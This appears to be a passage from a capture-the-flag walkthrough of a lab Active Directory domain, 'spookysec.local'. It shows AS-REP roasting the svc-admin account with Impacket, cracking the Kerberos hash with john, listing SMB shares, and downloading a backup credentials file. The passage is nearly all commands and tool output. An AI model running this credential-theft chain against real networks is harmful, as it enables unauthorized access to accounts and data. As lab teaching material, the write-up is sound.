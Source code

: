 ```bash
$ python3 GetNPUsers.py spookysec.local/svc-admin -no-pass  

Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f3bd08fb7f7fXXXXXX57b5cc45c3a0cb$6a1732c7f9fc364ed020756f1124123e59464edf5b2a3e1490a80bb0da8e75ce3843c0f3ee91468e4e2a51c13762df1e132002324cbc6dbd04af1e2dd1d35e3f4a2b9c7af09424990cd0b746ea3f65ae985df73aee7b6412b3ece3e602fabbe45ccca335dca81973befcb91a48bb4d0020332acXXXXXXfa4a69729f051a89409f00303384f90d684a3dfd5ee66a2445b27268d38c75d32bb6b6c61201e5c0c9e78cdd0c8f5b329f47d9749371119032667b0e601eab3367490a2b6466cc8f5082bad3a13d2ac849130ec1207d53008c31397fa75d74573cba4dd96abb76e8202adcf99f1086a84756cb9bf35acc503ec58e5
```

### Try to decrypt the hash with john

```bash
$ sudo john hash.txt --wordlist=passwordlist.txt  
                                                
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
managemXXXXX05   ($krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL)
1g 0:00:00:00 DONE (2020-08-05 19:51) 3.333g/s 23893p/s 23893c/s 23893C/s horoscope..frida
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

```bash
$ smbmap -H spookysec.local -d spookysec.local -u svc-admin -p managemXXXXX05           
     
[+] IP: spookysec.local:445	Name: unknown                                           
        Disk              Permissions	Comment
	----              -----------	-------
	ADMIN$            NO ACCESS	Remote Admin
	backup            READ ONLY	
	C$                NO ACCESS	Default share
	IPC$              READ ONLY	Remote IPC
	NETLOGON          READ ONLY	Logon server share 
	SYSVOL            READ ONLY	Logon server share
	
``` 

### View user file using smbclient

``` bash
$ smbclient \\\\spookysec.local\\backup --user svc-admin                        

Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Apr  5 03:08:39 2020
  ..                                  D        0  Sun Apr  5 03:08:39 2020
  backup_credentials.txt              A       48  Sun Apr  5 03:08:53 2020
get
		8247551 blocks of size 4096. 5266965 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```